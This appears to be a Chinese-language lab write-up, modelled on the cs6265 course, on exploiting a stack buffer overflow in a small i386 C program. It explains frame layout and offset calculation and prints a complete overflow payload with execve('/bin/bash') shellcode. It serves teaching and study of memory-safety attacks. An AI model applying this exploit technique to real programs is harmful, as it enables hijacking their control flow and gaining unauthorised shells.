



# 缓冲区溢出

本实验利用栈缓冲区溢出实现了劫持控制流，运行 shellcode 并启动了 shell。

## 实验原理及平台介绍

本实验基于 i386 平台进行，运行的操作系统为 Ubuntu 22.04 jammy，内核版本为 x86_64 Linux 5.15.0-102-generic。

对于 i386 平台的函数调用过程，一般的栈帧结构为：

```
+-----------+
|  ret addr |
+-----------+
|  old %ebp |
+-----------+ <---- %ebp
|   local   |
| variables |
+-----------+ <---- %esp
```

对于 local variables，我们可以将其视为函数上下文中的数据缓冲区（data buffer），由于其位于栈上，因此称为栈缓冲区（buffer on stack）。

如果在栈缓冲区写入的数据量超过了 local variables 的范围，即 %ebp - %esp，那么超出写入的数据就会将 old %ebp 和 ret addr 覆盖。

当我们精心构造一个 payload，将其输入给栈缓冲区，使其恰好将 ret addr 覆写为恶意代码的起始地址 ret addr'，那么在函数返回时，ret 指令就会将 %eip 置为 ret addr'，从而开始执行恶意代码。

利用栈缓冲区溢出将 ret addr 覆写为 ret addr'：

```
+-----------+
| ret addr' |
+-----------+
|  XXXXXXXX |
+-----------+ <---- %ebp
|   XXXXX   |
| XXXXXXXXX |
+-----------+ <---- %esp
```

函数返回前的退栈操作：

```
> movl %ebp, %esp
> popl %ebp
+-----------+
| ret addr' |
+-----------+ <---- %esp
|  XXXXXXXX | ----> %ebp = XXXXXXXX
+-----------+
|   XXXXX   |
| XXXXXXXXX |
+-----------+
```

函数返回，ret 指令执行：

```
> ret (equals to `popl %eip`)
+-----------+ <---- %esp
| ret addr' | ----> %eip = ret addr'
+-----------+
|  XXXXXXXX |       %ebp = XXXXXXXX
+-----------+
|   XXXXX   |
| XXXXXXXXX |
+-----------+
```

## 漏洞代码

本实验攻击的漏洞代码为：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
        char buf[128];
        char input[2048];
        printf("%p\n", buf);
        printf("%p\n", input);

        if (!fgets(input, sizeof(input), stdin))
                return -1;

        // vulnerable code
        strcpy(buf, input);
}
```

### 代码漏洞分析

漏洞代码的行为是：

1. 从 `stdin` 读取输入到 `input` 中
2. 将 `input` 中的输入拷贝到 `buf` 中

其中，`strcpy` 是漏洞代码，由于 `input` 的长度远大于 `buf`，因此可能会发生缓冲区溢出，是实现攻击的关键。

可以构造 payload，将 shellcode 直接放置在 `input` 中，并利用 `strcpy` 函数将 `input` 头部的数据拷贝到 `buf`，这些头部数据将覆盖栈帧中的返回地址，将控制流转移到 `input` 的 shellcode。

### 攻击准备

1. 通过反汇编查看 `main` 函数的栈帧：


```
> lea 0x4(%esp), %ecx
+-------------+
|   argc      |
+-------------+ <---- %ecx
|  ret addr0  |
+-------------+ <---- %esp

> and $0xfffffff0, %esp
+-------------+
|   argc      |
+-------------+ <---- %ecx
|  ret addr0  |
+-------------+
|    ...      |
+-------------+ <---- %esp (4-byte align)

> push -0x4(%ecx)
> push %ebp
> mov %esp, %ebp
> push %ecx
+-------------+
|   argc      |
+-------------+ <---- %ecx
|  ret addr0  |
+-------------+
|    ...      |
+-------------+
|  ret addr1  |       ret addr1 = ret addr0
+-------------+
|   old ebp   |
+-------------+ <---- %ebp
|    %ecx     |
+-------------+ <---- %esp
```

> 相较于基本栈帧，这里 `main` 函数的栈帧做了 %esp 的对齐和恢复值保存。

2. 获取 `buf` 和 `input` 在栈上的相对位置：


```
+-------------+
|  ret addr1  |       ret addr1 = ret addr0
+-------------+
|   old ebp   |
+-------------+ <---- %ebp
|    %ecx     |
+-------------+
|     ...     |
+-------------+ <---- buf = %esp - 0x88
|     ...     |
|     ...     |
|     ...     |
+-------------+ <---- input = %esp - 0x888
```

3. 查看 `main` 函数的退栈过程：


```
> mov -0x4(%ebp), %ecx
+-------------+
|   argc      |
+-------------+ <---- %ecx
|  ret addr0  |
+-------------+
|    ...      |
+-------------+
|  ret addr1  |
+-------------+
|   old ebp   |
+-------------+ <---- %ebp
|    %ecx     |
+-------------+
|     ...     |
+-------------+ <---- %esp

> leave
> lea -0x4(%ecx), %esp
+-------------+
|   argc      |
+-------------+ <---- %ecx
|  ret addr0  |
+-------------+ <---- %esp
|    ...      |
+-------------+
|  ret addr1  |
+-------------+
|   old ebp   | ----> %ebp
+-------------+
```

`lea -0x4(%ecx), %esp` 这条指令非常关键，它直接决定了 ret 指令的返回地址到底在哪，因此，在设计攻击 payload 时，还需要覆写栈帧中 %ecx 的值，将 %esp 恢复为 ret addr1 的地址。

4. 得到关键栈缓冲区的覆写公式：

  - `%ecx - 0x4 = &ret addr1`，保证 %esp 恢复后指向 ret addr1
  - `ret addr1 = input + 0x104`，保证 ret 指令执行后控制流跳转到 shellcode

其中，`&ret addr = %ebp + 0x4`，`buf = %ebp - 0x88`，`0x104` 是 payload 的头部长度。整理后得到：
  - `%ecx = buf + 0x90`
  - `ret addr1 = input + 0x104`

## shellcode 代码

shellcode 代码包括 2 个部分：

- 头部的作用是实施缓冲区溢出，主要包括覆写数据
- 主体的作用是利用 `execve` 系统调用启动一个 shell

### 头部

以下是 shellcode 头部的模板：

```S
head0:                  # <- begin of buf
        .rept 0x84
        .byte 0xFF
        .endr
.long [%ecx]            # <- %ecx - 0x4 = &ret addr = %ebp + 0x4
.long 0xffffffff        # <- %ebp = anything

.long [ret addr1]       # <- ret addr1 = input + 0x104
.byte 0x00

.org 0x104
```

`buf` 覆写成功后，栈中的数据布局将变为：

```
+-------------+ <--\
| [ret addr1] |    |  ret addr1 =/= ret addr0
+-------------+    \-------\
|  0xffffffff |            |
+-------------+ <---- %ebp |
|   [%ecx]    | -----------/
+-------------+
| 0xff...0xff |
+-------------+ <---- buf = %esp - 0x88
```

方括号中的内容是需要根据程序的实际运行情况进行修改的内容，两个部分应该填写值的计算方法已经在前面给出。

### 主体

shellcode 的主体部分为：

```s
#include <sys/syscall.h>  
  
#define STRING	"/bin/bash\0"

.org 0x104
main:
        jmp     calladdr

popladdr:
        # prepare arg0: syscall number
        movl    $SYS_execve, %eax

        # prepare arg1: pathname
        popl    %esi                            # esi points to string
        movl    %esi, %ebx

        # prepare arg2: argv[]
        movl    $(argv - string), %ecx
        addl    %esi, %ecx                      # ecx points to argv
        movl    %esi, (%ecx)                    # set up argv[0] pointer to pathname

        # prepare arg3: envp[]
        movl    $(envp - string), %edx
        addl    %esi, %edx                      # edx points to envp

        # execve("/bin/bash", ["/bin/bash", NULL], [NULL])
        int     $0x80

calladdr:
        call    popladdr
string:
        .string STRING
.align 4
argv:
        .long 0
envp:
        .long 0
```

主体部分从 payload 的 0x104 偏移处开始，当 payload 注入到 `input` 中后，对应的地址为 `input + 0x104`，也就是借助 `buf` 覆写的 `ret addr1` 的值。

从 `main:` 标签开始，经过了 `jmp calladdr` 和 `call popladdr` 两次跳转后才真正进入系统调用参数的准备环节。这是因为这段代码被加载到了栈上，必须采用位置无关的相对寻址方式，`call` 指令会将 `string:` 标号在栈上的地址压栈，配合后面的 `popl %esi` 直接获得 `string:` 加载后的地址。后面的 `argv:` 和 `envp:` 都是利用它们与 `string:` 的相对地址计算得到的。

shellcode 最终构造了参数为 `execve("/bin/bash", ["/bin/bash", NULL], [NULL])` 的一次系统调用，如果执行成功，则将启动一个 bash。

## 实验结果

首先通过先注入一个大小相同，但地址均为不定值的 payload 确定 `buf` 和 `input` 的地址：



通过上图得知 `buf = 0xffffcc80`，`input = 0xffffc480`，从而：

- `%ecx = buf + 0x88 + 0x4 + 0x4 = 0xffffcd10`
- `ret addr1 = input + 0x104 = 0xffffc584`

因此修改 shellcode 的头部：



实施攻击，这里成功启动了 bash 并可以运行命令：



## 参考

- [cs6265 实验手册](https://tc.gts3.org/cs6265/2021/tut/tut02-warmup2.html)